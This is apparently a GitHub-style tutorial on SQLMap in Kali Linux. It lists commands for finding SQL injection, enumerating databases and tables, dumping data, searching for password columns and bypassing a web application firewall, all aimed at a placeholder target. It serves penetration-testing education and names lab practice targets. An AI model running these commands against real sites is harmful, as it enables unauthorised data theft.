 # 🔍 SQLMap in Kali Linux - A Practical Guide

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws in web applications. It is included by default in Kali Linux and is a powerful tool for ethical hackers and penetration testers.

> ⚠️ **Legal Disclaimer**: This guide is for **educational purposes** only. Do **not** use SQLMap or any hacking tool on web applications you do not own or have explicit permission to test.

---

## 🛠️ Prerequisites

- Kali Linux installed (bare-metal, VM, or WSL).
- A target web app with a vulnerable SQL injection point (e.g., **DVWA**, **bWAPP**, or custom test app).
- Basic understanding of SQL and HTTP requests.

---

## 🧠 Basic Usage Format

```bash
sqlmap -u "http://target.com/page.php?id=1" [options]
```

📌 Real-World Questions and SQLMap Commands
❓1. How many databases are available in this web application?
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```
📝 This will list all the databases available on the target if the injection is successful.

❓2. What is the current database user?
```bash
sqlmap -u "http://target.com/page.php?id=1" --current-user
```
❓3. What is the name of the current database?
```bash
sqlmap -u "http://target.com/page.php?id=1" --current-db
```
❓4. Is the current database user a DBA (admin)?

sqlmap -u "http://target.com/page.php?id=1" --is-dba
❓5. What tables exist in a specific database?
Replace target_db with the actual database name found from --dbs.

```bash
sqlmap -u "http://target.com/page.php?id=1" -D target_db --tables
```
❓6. What columns exist in a specific table?
Replace target_db and target_table with actual names.

```bash
sqlmap -u "http://target.com/page.php?id=1" -D target_db -T target_table --columns
```
❓7. Can we dump the data from a specific table?
```bash
sqlmap -u "http://target.com/page.php?id=1" -D target_db -T target_table --dump
```
❓8. Can we search for password hashes or other keywords?
```bash
sqlmap -u "http://target.com/page.php?id=1" --search -C password
```
❓9. How do we save output to a file?
Use -o to log results:

```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs -o
```

Logs are saved in:


~/.sqlmap/output/
❓10. How to use cookies or session tokens?
```bash
sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=abcd1234"
```
❓11. Can we bypass WAF (Web Application Firewall)?
```bash
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase,charencode
```
❓12. How to use SQLMap with POST requests?
```bash
sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin" --dbs
```





🧪 Practice Targets
Use legal and safe targets such as:
DVWA
bWAPP
Mutillidae

Install them in localhost for ethical practice.

📚 Additional Tips
Add --batch to skip all prompts (useful for scripting).

Use --risk=3 --level=5 for deeper testing.

Combine --threads=10 for faster scans (caution: more aggressive).
